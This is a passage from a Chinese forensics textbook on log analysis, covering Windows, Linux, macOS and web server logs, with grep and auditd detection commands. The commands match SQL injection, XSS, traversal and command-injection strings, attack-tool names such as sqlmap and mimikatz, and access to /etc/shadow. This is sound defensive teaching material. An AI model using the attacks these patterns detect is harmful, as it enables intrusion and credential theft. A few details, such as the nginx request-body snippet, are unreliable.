

## 25.4 日志分析技术

日志是数字取证中最基础也最关键的证据来源之一。与磁盘镜像或内存快照不同，日志天然具备**时间序列性**和**跨系统关联性**，能够在攻击发生后的数月甚至数年内仍保留可追溯的活动记录。对取证调查员而言，掌握日志分析技术意味着拥有重建攻击时间线、定位入侵入口、识别数据泄露范围的核心能力。

本节系统性地覆盖日志取证的道（理论原理）、法（方法论）、术（操作技术）、器（工具生态），从基础概念到高级实战，从单机分析到企业级日志平台，为取证调查员提供完整的日志分析知识体系。

---

### 25.4.1 日志取证基础

#### 日志的取证价值

日志在数字取证中的核心价值体现在三个层面：

- **重构时间线**：每一条日志记录都带有时间戳，多个系统的日志串联起来即可形成完整的攻击时间轴，精确到秒级别。MITRE ATT&CK 框架中，几乎所有战术阶段都会在日志中留下可检测的痕迹。
- **定位根因**：通过回溯日志中异常行为的首次出现时间，可以锁定攻击入口点（如某次暴力破解成功后紧接着的异常登录）。日志是连接"现象"和"原因"的桥梁。
- **范围评估**：通过关联同一用户或同一 IP 在不同系统上的活动记录，可以准确判断数据泄露的范围和受影响资产。这是量化安全事件损失和制定修复计划的基础。
- **法律举证**：在司法取证中，带有完整性校验的日志可以作为法庭可采信的电子证据。许多国家的网络安全法（如中国的《网络安全法》《数据安全法》）要求关键信息基础设施运营者保留日志不少于6个月。

#### 日志取证的基本原则

日志不同于其他类型的电子证据，它具有**易篡改性**和**易丢失性**。取证调查员必须遵守以下原则：

1. **及时保全**：攻击者通常会清理或篡改日志，必须在发现安全事件后第一时间对日志进行镜像备份（使用 `dd` 或 `FTK Imager` 做位对位复制）。理想情况下，日志应实时远传到攻击者无法触及的集中式日志服务器。
2. **原始性验证**：备份日志后立即计算 SHA-256 哈希值，并记录采集时间、采集人、采集环境，确保证据链完整。后续任何分析操作都应在副本上进行，永远不要直接操作原始日志。
3. **时间标准化**：记录日志来源系统的时区设置和 NTP 同步状态，时间偏差可能导致关联分析出现致命错误。NTP 偏差超过数秒的日志需要特别标注，不能直接参与时间线关联。
4. **多源验证**：不依赖单一日志源，应同时采集端点日志、网络设备日志和服务器日志进行交叉验证。攻击者通常只能清理本地日志，远传到中央服务器的日志往往能保留下来。
5. **元数据记录**：每次日志采集都应记录完整的元数据——源系统主机名、IP 地址、操作系统版本、日志文件路径、文件大小、采集命令和哈希值。这些信息是证据有效性的基础。

```bash
# 在Linux系统上对日志进行取证级镜像
# 使用 dd 做位对位复制，bs=4096 匹配文件系统块大小
sudo dd if=/var/log/auth.log of=/evidence/auth.log.img bs=4096 conv=noerror,sync
# 计算SHA-256哈希并记录采集元数据
sha256sum /evidence/auth.log.img > /evidence/auth.log.sha256
echo "采集时间: $(date -u '+%Y-%m-%dT%H:%M:%SZ')" > /evidence/auth.log.meta
echo "采集人: $(whoami)@$(hostname)" >> /evidence/auth.log.meta
echo "源路径: /var/log/auth.log" >> /evidence/auth.log.meta
echo "源大小: $(stat -c%s /var/log/auth.log) bytes" >> /evidence/auth.log.meta
echo "哈希校验: $(sha256sum /var/log/auth.log)" >> /evidence/auth.log.meta
```

```powershell
# 在Windows系统上备份事件日志
# 使用 wevtutil 导出 Security 日志
wevtutil epl Security C:\Evidence\security_log.evtx
# 验证文件完整性
certutil -hashfile C:\Evidence\security_log.evtx SHA256
# 同时导出其他关键日志
wevtutil epl System C:\Evidence\system_log.evtx
wevtutil epl "Microsoft-Windows-PowerShell/Operational" C:\Evidence\powershell_log.evtx
wevtutil epl "Microsoft-Windows-Sysmon/Operational" C:\Evidence\sysmon_log.evtx
# 记录取证元数据
@"
采集时间: $([DateTime]::UtcNow.ToString('o'))
采集人: $env:USERNAME@$env:COMPUTERNAME
日志列表: Security, System, PowerShell, Sysmon
"@ | Out-File C:\Evidence\collection_meta.txt
```

#### 日志的生命周期管理

一个完善的日志取证体系需要覆盖日志从产生到归档的全生命周期：

| 阶段 | 关键操作 | 取证要点 |
|------|---------|---------|
| 产生 | 系统/应用/网络设备产生日志 | 确保审计策略已启用，记录粒度足够 |
| 本地存储 | 写入本地磁盘 | 关注日志轮转策略，防止覆盖 |
| 远传 | 通过 syslog/NxLog/Beats 发送到中央服务器 | 使用 TLS 加密传输，防止中间人篡改 |
| 集中存储 | SIEM/ELK/Splunk 索引 | 确保存储安全，配置访问控制 |
| 分析 | 取证调查员查询和关联 | 在副本上操作，保留操作日志 |
| 归档 | 转入冷存储长期保留 | 遵守法规要求（6-12个月），使用 WORM 存储 |
| 销毁 | 超过保留期后安全删除 | 记录销毁时间和审批流程 |

---

### 25.4.2 Windows 事件日志深度分析

Windows 事件日志（Event Log）是 Windows 系统最核心的日志源，以 `.evtx` 格式存储在 `%SystemRoot%\System32\winevt\Logs\` 目录下。Windows 系统的日志体系分为三大类：

| 日志类别 | 存储文件 | 关键审计内容 | 保留策略 |
|---------|---------|-------------|---------|
| System（系统日志） | System.evtx | 驱动程序加载、服务启停、系统更新 | 默认20MB，循环覆盖 |
| Security（安全日志） | Security.evtx | 登录/注销、权限使用、对象访问、账户管理 | 默认20MB，循环覆盖 |
| Application（应用日志） | Application.evtx | 应用程序错误、安装/卸载、应用安全事件 | 默认20MB，循环覆盖 |

此外，Windows 10/11 和 Windows Server 2016+ 还引入了以下高级日志源：

| 日志源 | 默认状态 | 关键记录内容 | 取证重要性 |
|-------|---------|-------------|-----------|
| **Microsoft-Windows-Sysmon/Operational** | 需手动启用（Sysmon） | 进程创建/终止、网络连接、文件创建/修改、注册表修改、驱动加载 | 极高——记录攻击者最常利用的操作 |
| **Microsoft-Windows-PowerShell/Operational** | 需启用脚本块日志 | PowerShell 脚本内容、模块加载、命令执行 | 极高——检测 PowerShell 攻击的核心日志 |
| **Microsoft-Windows-WMI-Activity/Operational** | Windows 10+ 默认启用 | WMI 事件订阅、WMI 查询执行 | 高——检测 WMI 持久化 |
| **Windows Defender/Operational** | Windows 10+ 默认启用 | 恶意软件检测、隔离操作、实时保护事件 | 高——检测恶意文件落地 |
| **TerminalServices-LocalSessionManager** | Windows Server 默认启用 | RDP 登录/注销、会话断开 | 高——检测横向移动 |

#### PowerShell 日志提取与分析

```powershell
# 导出指定时间范围内的安全日志
$startDate = (Get-Date).AddDays(-30)
Get-WinEvent -FilterHashtable @{LogName='Security'; StartTime=$startDate} `
    | Export-Csv -Path security_30day.csv -NoTypeInformation

# 批量提取多个关键事件ID（取证最常用的事件集合）
$importantIds = @(
    4624,   # 登录成功
    4625,   # 登录失败
    4634,   # 注销
    4648,   # 显式凭据登录（横向移动）
    4672,   # 管理员特权
    4688,   # 进程创建（需启用命令行审计）
    4698,   # 创建计划任务
    4702,   # 更新计划任务
    4720,   # 用户账户创建
    4732,   # 成员添加到安全组
    4740,   # 账户锁定
    4768,   # Kerberos TGT请求
    4769,   # Kerberos服务票据请求
    4776,   # 凭据验证（NTLM）
    5140,   # 共享文件夹访问
    5145    # 共享对象访问检查
)
Get-WinEvent -FilterHashtable @{LogName='Security'; ID=$importantIds} `
    | Select-Object TimeCreated, Id, LevelDisplayName, Message `
    | Export-Csv -Path security_key_events.csv -NoTypeInformation

# 提取Sysmon事件（如果已安装）
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'} `
    | Select-Object TimeCreated, Id, Message `
    | Export-Csv -Path sysmon_events.csv -NoTypeInformation

# 提取PowerShell脚本块日志（检测恶意脚本执行的核心手段）
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-PowerShell/Operational'; ID=4104} `
    | Where-Object { $_.TimeCreated -gt $startDate } `
    | Select-Object TimeCreated, @{N='ScriptBlock';E={$_.Properties[2].Value}} `
    | Export-Csv -Path powershell_scripts.csv -NoTypeInformation
```

#### 关键事件 ID 速查表

以下事件 ID 在取证分析中出现的频率最高，需要熟练掌握：

| 事件ID | 含义 | 所属日志 | 取证价值 | 典型分析场景 |
|-------|------|---------|---------|-------------|
| 4624 | 登录成功 | Security | 高 | 定位攻击者使用的账户和登录时间 |
| 4625 | 登录失败 | Security | 极高 | 检测暴力破解攻击（同一IP短时间内大量4625） |
| 4634 | 注销 | Security | 中 | 判断会话持续时间，配合4624构建会话时间线 |
| 4648 | 通过显式凭据登录 | Security | 极高 | 检测横向移动（Pass-the-Hash / Pass-the-Ticket） |
| 4672 | 管理员特权登录 | Security | 高 | 识别特权账户被非正常使用（非管理员时段出现） |
| 4688 | 新进程创建 | Security | 高 | 追踪恶意进程的执行链（需启用命令行审计和父进程记录） |
| 4698 | 创建计划任务 | Security | 极高 | 检测持久化机制（攻击者创建定时任务） |
| 4702 | 更新计划任务 | Security | 高 | 检测计划任务被篡改（修改执行路径或参数） |
| 4720 | 用户账户创建 | Security | 极高 | 检测后门账户创建（攻击者新建管理员账户） |
| 4732 | 成员添加到安全组 | Security | 高 | 检测权限提升（普通用户被加入 Domain Admins） |
| 4740 | 账户被锁定 | Security | 中 | 检测暴力破解的后果（大量4740可确认攻击行为） |
| 4768 | Kerberos TGT请求 | Security | 高 | Kerberoasting 攻击检测（异常时间内大量TGT请求） |
| 4769 | Kerberos服务票据请求 | Security | 极高 | 黄金票据/白银票据攻击检测（RC4加密降级、异常SPN） |
| 4776 | 凭据验证（NTLM） | Security | 高 | 横向移动检测（NTLM Relay、Pass-the-Hash） |
| 5140 | 共享文件夹访问 | Security | 高 | 检测数据泄露（异常用户访问敏感共享） |
| 5145 | 共享对象访问检查 | Security | 中 | 细粒度检测文件访问（精确到文件路径） |
| 7045 | 新服务安装 | System | 极高 | 检测服务型后门（攻击者安装恶意服务） |
| 1102 | 审计日志被清除 | Security | 极高 | **攻击者清理痕迹的确凿证据**（与1100配合判断） |
| 1100 | 安全日志服务状态变更 | Security | 高 | 日志服务被停止或启动（可能被攻击者操纵） |

> **取证提示**：事件 4688 默认不记录命令行参数，需要通过组策略手动启用："计算机配置 → 策略 → Windows 设置 → 安全设置 → 本地策略 → 审核策略 → 审核进程创建 → 启用成功"。同时在"详细进程命令行审核"策略中也启用成功审计。没有命令行参数的 4688 事件取证价值大打折扣。

#### 高级工具：Hayabusa 和 Chainsaw

传统 PowerShell 脚本在处理数 GB 级别的 .evtx 文件时效率低下。日本网络安全厂商开发的 **Hayabusa** 和法国 Sekoia 开发的 **Chainsaw** 是两款基于 Rust 的高性能分析利器。

```powershell
# Hayabusa：生成CSV时间线（推荐用于大规模分析）
# 下载地址：https://github.com/Yamato-Security/hayabusa
hayabusa.exe csv-timeline -d C:\Logs\ -o timeline.csv --UTC --no-wizard

# 使用Hayabusa的检测规则（Sigma规则集成）
hayabusa.exe detection -d C:\Logs\ -o detections.csv --level critical,high,medium

# Hayabusa：生成JSON格式（便于SIEM导入）
hayabusa.exe json-timeline -d C:\Logs\ -o timeline.json --UTC

# Hayabusa：统计分析
hayabusa.exe log-metrics -d C:\Logs\ -o metrics.json

# Chainsaw：快速搜索特定事件模式
# 下载地址：https://github.com/WithSecureLabs/chainsaw
chainsaw.exe hunt C:\Logs\ --mapping .\chainsaw\mapping_files\sigma-mapping.yml

# Chainsaw搜索特定IP的活动
chainsaw.exe search C:\Logs\ -t "192.168.1.100" --mapping .\mapping_files\eventlog-mapping.yml

# Chainsaw搜索特定关键词（如可疑文件名）
chainsaw.exe search C:\Logs\ -t "mimikatz" --mapping .\mapping_files\sigma-mapping.yml
```

**Hayabusa vs Chainsaw 对比：**

| 维度 | Hayabusa | Chainsaw |
|------|---------|----------|
| 检测引擎 | 内置 YAML 规则 + Sigma 规则 | Sigma 规则为主 |
| 输出格式 | CSV/Timeline/JSON 多格式 | JSON/CSV |
| 速度 | 极快（Rust实现，多线程） | 快（Rust实现） |
| 适用场景 | 大规模企业事件时间线重建 | 精确检测特定攻击模式 |
| 规则社区 | Yamato-Security 社区活跃 | WithSecure 维护 |
| 内置统计 | 支持 log-metrics 统计 | 需配合 jq 等工具 |
| 推荐用法 | 首选：全面分析 | 辅助：定向搜索 |

> **实战建议**：两个工具建议配合使用——先用 Hayabusa 生成完整时间线概览，再用 Chainsaw 对可疑 IP 或关键词做定向深挖。

#### Windows 日志最佳审计配置

取证调查的效率很大程度上取决于日志审计的粒度。以下是推荐的审计策略配置：

```powershell
# 启用详细命令行审计（GPO路径：计算机配置 → 安全设置 → 本地策略 → 审核策略）
auditpol /set /subcategory:"Process Creation" /success:enable /failure:enable
auditpol /set /subcategory:"Logon" /success:enable /failure:enable
auditpol /set /subcategory:"Logoff" /success:enable
auditpol /set /subcategory:"Account Lockout" /success:enable
auditpol /set /subcategory:"Special Logon" /success:enable
auditpol /set /subcategory:"Group Membership" /success:enable

# 启用PowerShell详细日志（建议通过组策略批量部署）
# 以下为注册表方式（单机快速启用）
Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" -Name "EnableScriptBlockLogging" -Value 1
Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ModuleLogging" -Name "EnableModuleLogging" -Value 1
Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ModuleLogging\ModuleNames" -Name "*" -Value "*"

# 启用进程命令行记录
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\Audit" /v ProcessCreationIncludeCmdLine_Enabled /t REG_DWORD /d 1 /f
```

---

### 25.4.3 Linux 日志分析

Linux 系统日志体系基于 **syslog 协议**（RFC 5424），现代发行版通常使用 **rsyslog** 或 **syslog-ng** 作为日志守护进程。日志文件集中存储在 `/var/log/` 目录下。

#### 核心日志文件

| 日志文件 | 守护进程 | 典型内容 | 取证优先级 |
|---------|---------|---------|-----------|
| /var/log/auth.log（Ubuntu/Debian） | rsyslog | SSH登录、sudo执行、用户切换、PAM认证 | 极高 |
| /var/log/secure（RHEL/CentOS） | rsyslog | 同上（文件名不同） | 极高 |
| /var/log/syslog（Ubuntu） | rsyslog | 系统通用日志，包含大部分非认证消息 | 高 |
| /var/log/messages（RHEL） | rsyslog | 系统通用日志 | 高 |
| /var/log/kern.log | rsyslog | 内核消息、驱动错误 | 中 |
| /var/log/dmesg | 内核 | 内核环缓冲消息（启动日志） | 低（关注启动时异常模块加载） |
| /var/log/apt/history.log | apt | 软件包安装/卸载记录 | 高（检测恶意软件安装） |
| /var/log/yum.log | yum | RHEL系软件包安装记录 | 高（检测恶意软件安装） |
| /var/log/audit/audit.log | auditd | Linux Audit框架的详细审计记录 | 极高（比auth.log精细得多） |
| /var/log/lastlog | login | 所有用户的最后登录时间 | 中 |
| /var/log/wtmp | login | 所有用户的登录/注销历史（二进制） | 高 |
| /var/log/btmp | login | 失败的登录尝试记录（二进制） | 高（暴力破解证据） |
| /var/log/faillog | login | 登录失败计数和锁定状态 | 中 |
| /var/log/cron.log | cron | 定时任务执行记录 | 高（检测持久化机制） |

#### 基础分析命令

```bash
# ========== SSH暴力破解检测 ==========

# 统计失败IP和次数（最常用的暴力破解检测命令）
grep "Failed password" /var/log/auth.log \
  | grep -oP 'from \K[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+' \
  | sort | uniq -c | sort -rn | head -20

# 检测是否存在成功的暴力破解（先失败后成功的配对）
# 提取所有失败登录的IP，检查这些IP是否有成功登录
failed_ips=$(grep "Failed password" /var/log/auth.log \
  | grep -oP 'from \K[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+' | sort -u)
for ip in $failed_ips; do
  if grep "Accepted" /var/log/auth.log | grep -q "$ip"; then
    echo "[CRITICAL] IP $ip 有暴力破解成功记录!"
    echo "  失败次数: $(grep "Failed password" /var/log/auth.log | grep -c "$ip")"
    echo "  首次成功: $(grep "Accepted" /var/log/auth.log | grep "$ip" | head -1)"
    echo "  用户名: $(grep "Accepted" /var/log/auth.log | grep "$ip" | grep -oP 'for \K\S+')"
  fi
done

# 按小时统计SSH攻击分布（识别攻击时间规律）
grep "Failed password" /var/log/auth.log \
  | awk '{print $3}' | cut -d: -f1 | sort | uniq -c | sort -k2

# ========== 检测异常sudo使用 ==========

# 过滤掉常见的合法sudo命令，聚焦可疑操作
grep "sudo:" /var/log/auth.log \
  | grep -v "COMMAND=/usr/bin/ls\|COMMAND=/usr/bin/cat\|COMMAND=/usr/bin/find\|COMMAND=/usr/bin/id" \
  | awk '{print $1, $2, $3, $NF}' | sort | uniq -c | sort -rn

# 检测非root用户的sudo成功记录（应被重点关注）
grep "sudo: .* : COMMAND=" /var/log/auth.log \
  | grep -v "COMMAND=/usr/bin/su" \
  | awk '{print $3, $5, $NF}' | sort | uniq -c | sort -rn

# ========== 用户登录分析 ==========

# 分析用户登录规律（含成功和失败）
last -F -n 100 | grep -v "wtmp begins"
lastb -F -n 100   # 查看失败登录
who               # 查看当前在线用户

# 检测异常时间登录（工作时间之外的登录）
grep "Accepted" /var/log/auth.log \
  | awk '$3 ~ /0[2-5]:/' \
  | awk '{print $1, $2, $3, $5, $9}' \
  | sort | uniq -c | sort -rn

# ========== 使用journalctl（systemd系统） ==========

# 查看指定服务的错误日志
journalctl -u ssh.service --since "2024-01-01 00:00:00" --until "2024-01-02 23:59:59" -p err --no-pager

# 查看特定PID的完整日志链
journalctl _PID=1234 --no-pager

# 查看特定用户的所有活动
journalctl _SYSTEMD_UNIT=sshd.service _UID=1000 --no-pager

# 检测systemd服务异常重启（可能暗示攻击者反复触发）
journalctl --since "7 days ago" | grep -i "start\|stop\|fail" | awk '{print $1,$2,$3,$5,$6}' | sort | uniq -c | sort -rn | head -20
```

#### Auditd 深度审计

auditd 是 Linux 系统最强大的审计框架，其日志比 auth.log 精细得多。在取证调查中，auditd 日志可以直接还原攻击者的所有系统调用——什么用户、在什么时间、对什么文件、执行了什么命令、产生了什么结果。

```bash
# ========== 审计规则配置与管理 ==========

# 查看当前生效的审计规则
auditctl -l

# 添加实时审计规则（监控/etc/passwd的修改）
auditctl -w /etc/passwd -p wa -k passwd-change
# -w: 监控路径  -p: 权限过滤(w=写, a=属性, x=执行)  -k: 搜索键

# 添加监控整个目录的规则
auditctl -w /etc -p wa -k etc-change
auditctl -w /var/www/html -p wa -k web-change
auditctl -w /bin -p x -k binary-execution
auditctl -w /usr/bin -p x -k binary-execution

# 监控特定系统调用
auditctl -a always,exit -F arch=b64 -S execve -k command-exec

# ========== 日志查询与分析 ==========

# 查询所有由特定用户触发的系统调用
ausearch -ui 1001 -i --format text

# 查询特定文件的修改操作
ausearch -f /var/www/html/index.html -i

# 查询对shadow文件的所有访问（极高优先级）
ausearch -f /etc/shadow -i

# 查询网络连接相关事件
ausearch -sc connect -i

# 按时间范围查询
ausearch -ts 2024-01-01 09:00:00 -te 2024-01-01 12:00:00 -i

# 按事件类型查询
ausearch -m USER_LOGIN -i          # 登录事件
ausearch -m SYSCALL -k passwd-change -i  # 密码文件修改
ausearch -m PATH -k web-change -i   # Web文件变更

# ========== 统计报告生成 ==========

# 登录统计
aureport -l --summary

# 可执行文件执行统计（检测WebShell的核心手段）
aureport -x --summary

# 文件访问统计
aureport -f --summary

# 生成完整的审计摘要报告
aureport -a --summary
```

**auditd 是检测 WebShell 的核心手段**：当攻击者上传 PHP WebShell 后，通过 `aureport -x` 可以清楚地看到 `/usr/bin/php` 或 `/usr/bin/python` 以 www-data 用户身份执行了异常脚本文件。配合 `ausearch -f` 可以精确追溯 WebShell 的创建时间、执行次数和具体操作。

```bash
# WebShell检测实战流程
# 1. 查看www-data用户执行的所有程序
aureport -x | grep "www-data"

# 2. 查找www-data执行的异常程序（正常只应有nginx/apache/php-fpm等）
ausearch -ua www-data -x -i | grep -v "nginx\|apache2\|php-fpm\|bin/sh" \
  | grep "EXECVE"

# 3. 查看异常执行的具体命令
ausearch -ua www-data -x -i --format raw | grep "EXECVE" | tail -20
```

#### Linux Logwatch 自动化分析

```bash
# 安装并配置logwatch
sudo apt-get install logwatch   # Ubuntu/Debian
sudo yum install logwatch       # RHEL/CentOS

# 生成高详细度的今日报告
sudo logwatch --detail high --range today --output file --filename /tmp/logwatch_today.txt

# 生成最近7天的汇总报告，重点关注SSH和sudo
sudo logwatch --detail med --range 'between -7 days and today' \
  --service sshd --service sudo --output stdout

# 自定义logwatch配置（/etc/logwatch/conf/logwatch.conf）
# MailTo = security-team@company.com
# MailFrom = logwatch@server01
# Output = file
# Filename = /var/log/logwatch/$(date +%F).txt
# Detail = med
# Range = yesterday
```

---

### 25.4.4 macOS 统一日志分析

macOS（自 OS X 10.12 起）使用 **统一日志系统（Unified Logging System）**，将系统日志、内核日志和应用日志统一到 `log` 命令管理。日志以 `.logarchive` 或 `.tracev3` 格式存储于 `/var/db/diagnostics/` 和 `/var/db/uuidtext/`。

#### macOS 日志体系结构

| 日志类型 | 查询命令/存储位置 | 取证价值 |
|---------|-----------------|---------|
| 统一日志（Unified Log） | `log show` | 极高——覆盖系统/应用/内核全部活动 |
| .logarchive 归档 | `/var/db/diagnostics/` | 极高——取证采集的主要目标 |
| Crash Reports | `~/Library/Logs/DiagnosticReports/` | 中——异常崩溃可能导致服务中断 |
| 安全日志 | `log show --predicate 'subsystem=="com.apple.securityd"'` | 极高——认证/授权活动 |
| 审计日志 | `/var/audit/`（需 root） | 极高——BSD审计框架，不可篡改 |
| 邮件日志 | `~/Library/Logs/Mail/` | 高——检测钓鱼邮件攻击 |

#### 常用取证命令

```bash
# 查看最近1小时的所有安全相关事件
log show --predicate 'subsystem == "com.apple.securityd"' \
  --last 1h --info --debug

# 查看最近7天的所有登录事件
log show --predicate 'eventMessage CONTAINS "login"' \
  --last 7d --info --debug

# 导出日志为logarchive格式做取证分析（取证采集的标准方式）
log collect --last 7d --output /evidence/mac_logs.logarchive

# 在Mac上解析远程logarchive
log show --archive /Volumes/evidence/mac_logs.logarchive \
  --predicate 'subsystem == "com.apple.securityd"' --info

# 查看统一日志中的特定进程活动
log show --predicate 'process == "sshd"' \
  --start '2024-01-01 09:00:00' --end '2024-01-01 18:00:00'

# 检测异常的系统扩展加载
log show --predicate 'eventMessage CONTAINS "system extension" OR eventMessage CONTAINS "kext"' \
  --last 30d --info

# 检测Gatekeeper绕过尝试
log show --predicate 'subsystem == "com.apple.syspolicy" AND eventMessage CONTAINS "deny"' \
  --last 7d --info

# 检测TCC（透明度、同意和控制）权限变更
log show --predicate 'subsystem == "com.apple.TCC"' \
  --last 30d --info | grep -i "screen recording\|accessibility\|full disk"
```

**macOS 日志取证的注意事项**：

- 统一日志系统默认保留约7天到数周的日志（取决于存储空间），超过保留期的日志会被自动删除。取证时务必第一时间执行 `log collect` 导出完整日志。
- macOS 的审计日志（/var/audit/）使用 BSD 审计框架，记录格式为二进制，需要用 `praudit` 命令解析：`praudit /var/audit/current`。
- 企业环境中推荐部署 **osquery** 进行实时日志采集，或配置 **rsyslog** 转发将 macOS 日志发送到中央日志服务器。
- macOS 系统在关闭时会清理部分内存中的日志缓存，因此在目标机器仍运行时尽早采集至关重要。

---

### 25.4.5 Web 服务器日志分析

Web 服务器日志是检测 Web 攻击（SQL 注入、XSS、文件包含、路径穿越、WebShell 上传）的第一证据来源。

#### Apache/Nginx 访问日志关键字段解析

Apache 和 Nginx 默认使用 **Combined Log Format** 或 **Common Log Format**，字段顺序如下：

| 字段位置 | 示例 | 含义 | 取证价值 |
|---------|------|------|---------|
| 客户端IP | 192.168.1.100 | 访问来源IP | 定位攻击者 |
| 时间戳 | [01/Jan/2024:13:55:36 +0800] | 请求时间 | 时间线定位 |
| 请求方法 | GET/POST | HTTP方法 | 区分正常访问和攻击载荷 |
| 请求路径 | /wp-admin/admin-ajax.php | 访问资源 | 检测漏洞利用路径 |
| 状态码 | 200/403/404/500 | HTTP响应码 | 判断攻击是否成功（200=成功利用） |
| 响应字节数 | 12345 | 返回数据量 | 评估数据泄露范围（异常大的响应） |
| Referer | https://example.com/ | 来源页面 | 判断是直接访问还是被引流 |
| User-Agent | Mozilla/5.0... | 客户端信息 | 检测自动化工具特征（sqlmap、nmap等） |

> **取证提示**：Nginx 默认不记录 POST 请求体内容。要记录请求体用于 SQL 注入和 XSS 分析，需要配置 `$request_body` 变量。在 Nginx 配置中添加：
> ```
> location / {
>     proxy_pass_request_body on;
>     proxy_set_header Request-Body $request_body;
>     access_log /var/log/nginx/access.log combined;
> }
> ```
> 或使用 Nginx 的 `mirror` 模块将请求体镜像到分析系统。

#### Web 日志攻击分析实战

```bash
# ========== SQL注入检测 ==========

# 检测SQL注入尝试（请求URI中包含SQL关键字）
grep -iE "(\%27|'|--|union|select|insert|drop|exec)" /var/log/apache2/access.log \
  | awk '{print $1, $7}' | sort | uniq -c | sort -rn | head -20

# 检测SQL注入（更精确的模式匹配）
grep -iE "(select|insert|update|delete|union|concat|benchmark|sleep|load_file|into\s+(out|dump)file)" \
  /var/log/apache2/access.log \
  | awk '{print $1}' | sort | uniq -c | sort -rn | head -20

# 检测SQL注入成功（响应200且包含SQL关键字的请求）
grep -iE "(union|select|insert|drop)" /var/log/apache2/access.log \
  | grep " 200 " | awk '{print $1, $7}' | sort | uniq -c | sort -rn | head -20

# ========== 目录遍历/XSS/命令注入 ==========

# 检测目录遍历攻击（包含../或%2e%2e/）
grep -iE "(\.\.\/|\.\.%2f|%2e%2e%2f)" /var/log/apache2/access.log \
  | awk '{print $1, $7}' | sort | uniq -c | sort -rn | head -20

# 检测XSS攻击（包含<script>标签或JavaScript事件）
grep -iE "(<script|%3Cscript|onerror|onload|javascript:|alert\()" /var/log/apache2/access.log \
  | awk '{print $1, $7}' | sort | uniq -c | sort -rn | head -20

# 检测命令注入（包含管道符、分号、反引号等Shell特殊字符）
grep -iE "(\||;|%7C|%3B|\$\(|%60)" /var/log/apache2/access.log \
  | awk '{print $1, $7}' | sort | uniq -c | sort -rn | head -20

# ========== 扫描器和自动化工具检测 ==========

# 检测扫描器行为（大量404请求的IP——目录爆破特征）
awk '{print $1, $9}' /var/log/apache2/access.log \
  | grep " 404" | awk '{print $1}' | sort | uniq -c | sort -rn | head -20

# 检测特定扫描工具的User-Agent
grep -iE "(nikto|sqlmap|nmap|masscan|dirbuster|gobuster|nuclei|burpsuite|zgrab)" \
  /var/log/apache2/access.log \
  | awk '{print $1}' | sort | uniq -c | sort -rn | head -20

# 检测异常的User-Agent（过短、过长或包含特殊字符）
awk '{print $12}' /var/log/apache2/access.log \
  | sort -u | awk 'length < 10 || length > 200' | head -20

# ========== 数据外传检测 ==========

# 检测可疑的POST请求（可能为数据外传）
awk '$6 == "\"POST"' /var/log/apache2/access.log \
  | awk '{print $1, $7, $10}' | sort | uniq -c | sort -rn | head -20

# 检测异常大的响应（可能是数据泄露）
awk '$10 > 1000000' /var/log/apache2/access.log \
  | awk '{print $1, $7, $10}' | sort -t' ' -k3 -rn | head -20

# ========== DDoS检测 ==========

# 统计访问频率最高的IP（潜在的DDoS或扫描行为）
awk '{print $1}' /var/log/apache2/access.log | sort | uniq -c | sort -rn | head -10

# 按秒统计请求频率（检测CC攻击）
awk '{print $4}' /var/log/apache2/access.log \
  | cut -d: -f1-3 | sort | uniq -c | sort -rn | head -20
```

#### Web 日志分析利器

| 工具 | 语言 | 核心功能 | 适用场景 |
|------|-----|---------|---------|
| GoAccess | C | 实时Web日志分析，终端/HTML交互界面 | 快速查看访问统计，生成可视化报告 |
| AWStats | Perl | 详细的访问统计报表 | 定期统计报告，历史趋势分析 |
| ModSecurity | C/Lua | WAF日志，记录被拦截的攻击 | 攻防对抗分析，检测被WAF放行的攻击 |
| ELK + Filebeat | Java/Go | 集中式Web日志分析平台 | 企业级日志平台，长期存储和关联分析 |
| Crowdsec | Go | 协作式IP威胁情报 | 检测已知恶意IP的访问 |
| GoSummarizer | Go | 大规模日志快速聚合 | 千万级日志文件的快速统计 |

```bash
# 使用GoAccess生成HTML可视化报告（推荐）
goaccess /var/log/apache2/access.log --log-format=COMBINED -o /tmp/report.html

# GoAccess终端实时分析（交互式界面）
goaccess /var/log/apache2/access.log --log-format=COMBINED -c

# 使用awk生成自定义的攻击统计报告
echo "=== Web攻击统计报告 ===" > /tmp/web_attack_report.txt
echo "生成时间: $(date)" >> /tmp/web_attack_report.txt
echo "" >> /tmp/web_attack_report.txt
echo "--- SQL注入尝试 ---" >> /tmp/web_attack_report.txt
grep -ciE "(union|select|insert|drop|exec)" /var/log/apache2/access.log >> /tmp/web_attack_report.txt
echo "--- 目录遍历尝试 ---" >> /tmp/web_attack_report.txt
grep -ciE "(\.\.\/|%2e%2e)" /var/log/apache2/access.log >> /tmp/web_attack_report.txt
echo "--- XSS尝试 ---" >> /tmp/web_attack_report.txt
grep -ciE "(<script|onerror|onload)" /var/log/apache2/access.log >> /tmp/web_attack_report.txt
echo "--- 攻击者IP Top20 ---" >> /tmp/web_attack_report.txt
grep -iE "(union|select|\.\.\/|<script)" /var/log/apache2/access.log \
  | awk '{print $1}' | sort | uniq -c | sort -rn | head -20 >> /tmp/web_attack_report.txt
```

---

### 25.4.6 数据库审计日志分析

